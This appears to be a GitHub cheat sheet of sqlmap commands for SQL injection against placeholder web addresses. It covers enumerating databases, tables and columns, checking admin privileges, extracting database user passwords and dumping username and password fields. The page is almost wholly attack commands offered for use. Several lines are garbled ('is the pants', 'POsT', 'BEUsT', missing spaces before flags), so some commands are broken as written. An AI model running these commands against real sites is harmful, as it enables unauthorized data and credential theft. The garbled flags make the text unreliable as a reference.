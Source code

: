 # SQLMAP CMD

**Basic usage**
```
./sqlmap -u "inject address" --dbs // enumerate database
./sqlmap -u "inject address" --current-db // current database
./sqlmap -u "inject address" --users // column database user
./sqlmap -u "inject address" --current-user // current user
./sqlmap -u "inject address" --tables -D "database" // enumerate the table name of the database
./sqlmap -u "inject address" --columns -T "table name" -D "database" // get the column name of the table
./sqlmap -u "inject address" --dump -C "field, field" -T "table name" -D "database" // get the data in the table, including the column, is the pants
```

**submit using the POsT method**
```
sqlmap -u "http://192.168.1.1/sqlmap/oracle/post_int.php" --method POsT --data "id=1"
sqlmap -u "https://xxxxx//search.aspx" --forms --batch --crawl=10  --dbms=MssQL --dbs --current-db  --technique=BEUsT --risk=3 --level=3
```

**Read the database version, current user, current database**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1
```

**Determine the current database user permissions**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U username-v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U username-v 1
```

**Read the passwords of all database users or specified database users**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap-u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2
```

**Get all the databases**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2
```
**Get all the tables in the specified database**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2
```

**Get the field of the specified table in the specified database name**
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2
```

**Get the data of the specified field in the specified table in the specified database name** 
```
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2
```
